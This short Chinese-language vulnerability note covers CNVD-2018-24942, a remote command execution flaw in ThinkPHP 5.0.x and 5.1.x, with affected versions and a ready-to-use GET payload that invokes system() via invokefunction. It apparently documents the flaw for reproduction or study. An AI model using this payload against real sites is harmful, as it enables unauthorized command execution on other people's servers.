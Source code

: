 ## 简介

该漏洞由于框架对控制器名未能进行足够的检测，攻击者利用该漏洞对目标网站进行远程命令执行攻击。

## 影响版本

ThinkPHP 5.0.x < 5.0.23

ThinkPHP 5.1.x < 5.1.31

5.0.23和5.1.31版本之前的版本不一定被影响，而且某些版本可能需要开启debug才可以

## 影响地址

http://ip:port/index.php

## 攻击方法

![image-20240331231208057](CNVD-2018-24942.assets/image-20240331231208057.png)

在访问该网页的GET请求头上添加

```http

?s=index/\think\app/invokefunction&function=call_user_func_array&vars[0]=system&vars[1][]=id
//vars[1][]为要执行的恶意命令
```

![image-20240331231225922](CNVD-2018-24942.assets/image-20240331231225922.png)